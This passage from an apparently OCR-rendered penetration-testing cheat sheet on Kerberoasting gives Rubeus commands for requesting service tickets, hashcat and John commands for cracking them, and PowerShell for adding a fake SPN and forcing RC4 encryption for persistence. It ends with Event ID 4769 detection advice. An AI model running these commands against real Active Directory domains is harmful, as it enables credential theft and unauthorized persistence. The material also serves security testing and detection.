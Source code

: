 ```
  - Filter for likely weak passwords using `/pwdsetbefore:<MM-dd-yyyy>` (older passwords) or target privileged OUs with `/ou:<DN>`.

Examples (Rubeus):

```powershell
# Kerberoast only AES-enabled accounts
.\Rubeus.exe kerberoast /aes /outfile:hashes.aes
# Request RC4 for accounts without AES (downgrade via tgtdeleg)
.\Rubeus.exe kerberoast /rc4opsec /outfile:hashes.rc4
# Roast a specific SPN with an existing TGT from a non-domain-joined host
.\Rubeus.exe kerberoast /ticket:C:\\temp\\tgt.kirbi /spn:MSSQLSvc/sql01.domain.local
```
```
### Cracking

```bash
# John the Ripper
john --format=krb5tgs --wordlist=wordlist.txt hashes.kerberoast

# Hashcat
# RC4-HMAC (etype 23)
hashcat -m 13100 -a 0 hashes.rc4 wordlist.txt
# AES128-CTS-HMAC-SHA1-96 (etype 17)
hashcat -m 19600 -a 0 hashes.aes128 wordlist.txt
# AES256-CTS-HMAC-SHA1-96 (etype 18)
hashcat -m 19700 -a 0 hashes.aes256 wordlist.txt
```
```
### Persistence / Abuse

If you control or can modify an account, you can make it kerberoastable by adding an SPN:

```powershell
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='fake/WhateverUn1Que'} -Verbose
```
```
Downgrade an account to enable RC4 for easier cracking (requires write privileges on the target object):

```powershell
# Allow only RC4 (value 4) — very noisy/risky from a blue-team perspective
Set-ADUser -Identity <username> -Replace @{msDS-SupportedEncryptionTypes=4}
# Mixed RC4+AES (value 28)
Set-ADUser -Identity <username> -Replace @{msDS-SupportedEncryptionTypes=28}
```
```
You can find useful tools for kerberoast attacks here: https://github.com/nidem/kerberoast

If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)` it’s due to local time skew. Sync to the DC:

- `ntpdate <DC_IP>` (deprecated on some distros)
- `rdate -n <DC_IP>`

### Detection

Kerberoasting can be stealthy. Hunt for Event ID 4769 from DCs and apply filters to reduce noise:

- Exclude service name `krbtgt` and service names ending with `$` (computer accounts).
- Exclude requests from machine accounts (`*$$@*`).
- Only successful requests (Failure Code `0x0`).
- Track encryption types: RC4 (`0x17`), AES128 (`0x11`), AES256 (`0x12`). Don’t alert only on `0x17`.

```